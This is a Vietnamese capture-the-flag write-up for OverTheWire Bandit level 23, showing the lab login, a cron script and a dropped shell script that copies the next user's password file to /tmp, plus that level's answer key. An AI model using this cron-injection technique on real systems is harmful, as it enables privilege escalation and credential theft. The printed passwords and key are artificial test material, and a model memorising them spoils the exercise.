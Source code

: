 # 🎯 Bandit Level 23

## 📌 END goal: Tìm key bị giấu
**Describe**: A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.


```
host: bandit.labs.overthewire.org
port: 2220
username: bandit23
password: 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga

```
---

## ⚙️ Cách thực hiện:
**Payload:**
```bash
ssh -p 2220 bandit23@bandit.labs.overthewire.org
ls /etc/cron.d
cat /etc/cron.d/cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
mkdir /tmp/script
cd /tmp/script
nano lv23.sh
#Nội dung script:
#  #!bin/bash
#  cat /etc/bandit_pass/bandit24 > /tmp/script/password.txt 
chmod +x lv23.sh
ls -la /var/spool/
cp lv23.sh /var/spool/bandit24/foo/
cat passsword.txt
```

-Tương tự với Lv trước, ta có 1 đoạn script như sau:
```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

-Phân tích 1 chút về script này, ```whoami``` trả về ```bandit24``` vì script do cron của user ```bandit24``` chạy giá trị ```myname``` là ```bandit24``` 
và sẽ thực thi các file được sở hữu bởi ```bandit23``` 

==>Script này chỉ cho phép ```bandit23``` inject shell script vào ```/var/spool/bandit24/foo``` để được thực thi bởi ```bandit24``` trong 1 phút

![alt text](./image/Level23-1.png)

-Bước 1: Tạo shell script:
```bash
mkdir /tmp/script
cd /tmp/script
nano lv23.sh
```

Với nội dung:   
```bash
#!bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/script/password.txt 
```

-Bước 2: Cấp quyền thực thi:
```bash
chmod +x lv23.sh
```

-Bước 3: copy script vào folder cron:
```bash
cp lv23.sh /var/spool/bandit24/foo/
```

-Bước 4: đọc mật khẩu từ file password.txt để lấy key

### Key: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8